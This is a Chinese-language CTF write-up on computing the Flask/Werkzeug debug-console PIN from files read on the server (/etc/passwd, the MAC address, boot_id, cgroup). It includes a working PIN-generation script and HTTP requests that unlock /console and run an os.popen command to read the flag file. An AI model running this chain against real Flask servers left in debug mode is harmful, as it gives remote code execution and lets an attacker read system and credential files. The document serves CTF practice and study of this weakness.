





# ?ctf 好像什么都能读（复现

## PIN码

Flask 的 debug 模式会提供一个强大的交互式调试器，这个调试器本质上可以在服务器上执行任意代码。

为了防止未授权用户滥用调试器，`werkzeug` 会生成一个 PIN 码。首次访问调试页面时，需要输入这个 PIN码才能解锁调试功能。

参考博客

[新版flask pin码计算-先知社区](https://xz.aliyun.com/news/15462)

[新版flask的pin码计算 - m1xian - 博客园](https://www.cnblogs.com/m1xian/p/18528813)

pin码主要由六个参数构成：

 probably_public_bits 公钥部分

1.`username`：执行代码时的用户名,读`/etc/passwd`这个文件

2.`appname`：固定值，默认是  Flask

3.`modname`：固定值，默认是  flask.app

4.`moddir`： `app.py` 文件所在路径，一般可以通过查看debug报错信息获得

## private_bits 私钥部分：

1.uuid：通过读取  `/sys/class/net/eth0/address` 获取，一般得到的是一串十六进制数，将其中的横杠去掉然后转成十进制

2.machine_id：首先读取  /etc/machine-id ，如果有值则不读取取`/proc/sys/kernel/random/boot_id `，否则读取该文件。接着读取  `/proc/self/cgroup `，取第一行的`/` 后面的所有字符串，与上面读到的值拼接起来，最后得到  `machine_id`

脚本如下：

```python
import hashlib
from itertools import chain

# 可能是公开的信息部分
probably_public_bits = [
    'ctf',  # /etc/passwd
    'flask.app',  # 默认值
    'Flask',  # 默认值
    '/home/ctf/.local/lib/python3.13/site-packages/flask/app.py'  # moddir，报错得到
]

# 私有信息部分
private_bits = [
    '235821916857788',  # /sys/class/net/eth0/address 十进制
    '89b34b88-6f33-4c4b-8a30-69a4ba41fd0e'
    # machine-id部分
]

# 创建哈希对象
h = hashlib.sha1()

# 迭代可能公开和私有的信息进行哈希计算
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)

# 加盐处理
h.update(b'cookiesalt')

# 生成 cookie 名称
cookie_name = '__wzd' + h.hexdigest()[:20]
print(cookie_name)

# 生成 pin 码
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

# 格式化 pin 码
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num
```



```php
/etc/passwd
```



报错得到绝对位置，同时得到secret


```php
/sys/class/net/eth0/address
```

将得到的数字去掉冒号后化为十进制



```php
/proc/sys/kernel/random/boot_id
```

得到machine-id

## 获取cookie：

```php
GET /console?__debugger__=yes&cmd=pinauth&pin=699-028-928&s=MPzwdNt9TXDCxvbOjj4D HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: */*
Referer: http://challenge.ilovectf.cn:30100/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



## 接着构造执行指令：

```php
GET /console?__debugger__=yes&cmd=__import__(%27os%27).popen(%27cat%20/fl*%27).read()&frm=0&s=MPzwdNt9TXDCxvbOjj4D HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: */*
Referer: http://challenge.ilovectf.cn:30100/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Content-Length: 0
Connection: keep alive
Cookie: __wzd107814efcb0578d5dd6c=1764312795|27de6bf38216; HttpOnly; Path=/; SameSite=Strict
```



